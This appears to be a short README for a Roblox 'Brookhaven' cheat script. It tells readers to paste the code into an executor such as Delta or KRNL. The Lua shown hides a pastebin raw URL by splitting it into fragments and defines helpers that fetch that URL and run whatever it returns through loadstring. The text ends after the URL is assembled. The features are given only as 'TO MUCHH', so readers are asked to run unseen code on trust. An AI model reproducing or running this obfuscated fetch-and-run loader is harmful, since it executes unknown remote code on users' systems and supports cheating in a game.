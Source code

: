 # Brookhaven 

![Game Image](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSdllVzdT_DodRjtsrElmbT6RFx-gkmr8Cu1oGzdIf7XA&s=10)

## Features

- TO MUCHH

---

## Installation

- Copy script  
- Go to your executor (Delta, KRNL, etc.)  
- Paste and execute  
- Enjoy :)

```lua
local function s(t)
    local r = {"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}
    return table.concat(r)
end

local function r(u)
    return game:HttpGet(u)
end

local function x(c)
    return loadstring(c)()
end

local url = s()
